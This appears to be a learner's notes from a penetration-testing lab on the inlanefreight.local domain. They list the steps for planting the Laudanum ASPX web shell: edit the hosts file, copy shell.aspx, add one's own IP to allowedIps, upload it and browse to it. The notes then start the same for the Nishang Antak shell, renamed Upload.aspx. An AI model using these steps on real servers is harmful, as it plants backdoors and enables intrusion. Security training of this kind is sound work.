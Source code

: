 # Laudanum

add entry into /etc/hosts
```
<target ip> status.inlanefreight.local
```

Move a copy for modification 
```
cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx 
```

On line 59 - add our own IP address to the allowedIps variable 

Then in the website, go in and then upload this shell file 

Need to nagivate where the shell was uploaded to see the shell  

# Antak 

/usr/share/nishang/Antak-WebShell 

```shell-session
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
